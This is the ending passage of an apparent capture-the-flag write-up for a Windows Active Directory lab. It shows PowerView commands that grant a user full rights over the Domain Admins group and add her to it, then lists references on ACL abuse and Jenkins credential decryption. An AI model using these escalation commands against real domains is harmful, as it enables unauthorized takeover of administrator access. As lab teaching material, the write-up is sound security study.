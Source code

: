 So now we have set the object owner of the group domain admins to maria and we now have to grant all permissions on this object

```powershell
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity maria -Rights All
```

Now add maria user to this domain admins group

```powershell
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'maria'
```

<img src="https://i.imgur.com/IbZvGva.png"/>

<img src="https://i.imgur.com/yc3NyCJ.png"/>

We can see that we are a memeber of domains admins group so we can read the root and user flag but you need to login again because the changes will be effected after you login again

<img src="https://i.imgur.com/eCZC5dt.png"/>

<img src="https://i.imgur.com/9zaN9mA.png"/>

## References
- https://stackoverflow.com/questions/12472645/how-do-i-schedule-jobs-in-jenkins
- http://woshub.com/manage-windows-firewall-powershell/
- https://stackoverflow.com/questions/39340322/how-to-reset-the-user-password-of-jenkins-on-windows
- https://github.com/hoto/jenkins-credentials-decryptor
- https://shellgeek.com/get-domain-name-using-powershell-and-cmd/
- https://cheatsheet.haax.fr/windows-systems/network-and-domain-recon/domain_mapping/
- https://www.thehacker.recipes/ad/movement/access-controls/logon-script
- https://book.hacktricks.xyz/windows/active-directory-methodology/acl-persistence-abuse
